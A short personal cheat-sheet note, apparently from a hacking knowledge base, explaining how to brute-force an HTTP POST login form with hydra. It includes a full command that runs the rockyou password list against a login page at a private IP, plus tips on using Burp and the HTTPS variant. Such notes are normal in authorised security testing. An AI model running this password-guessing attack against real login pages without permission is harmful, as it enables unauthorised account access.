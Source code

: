 # hydra brute force HTTP Post Request
Check request in BURP to see Post parameters. -l or -L has to be set, even if there is no user to login with!. Use https-post-form instead of http-post-form for HTTPS sites.
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.1 http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t 15
```

# Related
- [20221003150744](/zet/20221003150744/README.md) hydra brute force
- ~/kb/hacking/commands/hydra.md

Tags:
    #assorted #command #hacking #hydra
